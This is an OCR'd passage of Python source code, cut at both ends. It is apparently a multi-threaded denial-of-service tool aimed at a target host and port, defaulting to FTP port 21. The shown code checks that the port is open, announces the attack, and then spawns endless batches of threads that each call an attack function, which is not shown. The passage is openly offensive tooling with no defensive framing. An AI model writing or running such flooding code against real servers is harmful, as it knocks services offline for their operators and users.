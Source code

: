                 sys.exit()                                                                                                                                                                                                                   
        try:                                                                                                                                                                                                                                 
                port = int(sys.argv[2])                                                                                                                                                                                                      
        except:                                                                                                                                                                                                                              
                port = 21                                                                                                                                                                                                                    
        try:                                                                                                                                                                                                                                 
                conns = int(sys.argv[3])                                                                                                                                                                                                     
        except:                                                                                                                                                                                                                              
                conns = 50                                                                                                                                                                                                                   
        print("[!] Testing if {0}:{1} is open".format(target, port))                                                                                                                                                                         
        test(target, port)                                                                                                                                                                                                                   
        print("[+] Port {} open, starting attack...".format(port))                                                                                                                                                                           
        time.sleep(2)                                                                                                                                                                                                                        
        print("[+] Attack started on {0}:{1}!".format(target, port))                                                                                                                                                                         
        def loop(target, port, conns):                                                                                                                                                                                                       
                global start                                                                                                                                                                                                                 
                threading.Thread(target=timer).start()                                                                                                                                                                                       
                while 1:                                                                                                                                                                                                                     
                        for i in range(1, conns + 3):                                                                                                                                                                                        
                                t = threading.Thread(target=attack, args=(target,port,i,))                                                                                                                                                   
                                t.start()                                                                           
                                if i > conns + 2:                                                                   
                                        t.join()                                                                    
                                        break                                                                       
                                        loop()                                                                      
                                                                                                                    
        t = threading.Thread(target=loop, args=(target, port, conns,))                                              
        t.start()                                                                                                   
                                                                                                                    
def timer():                                                                                                        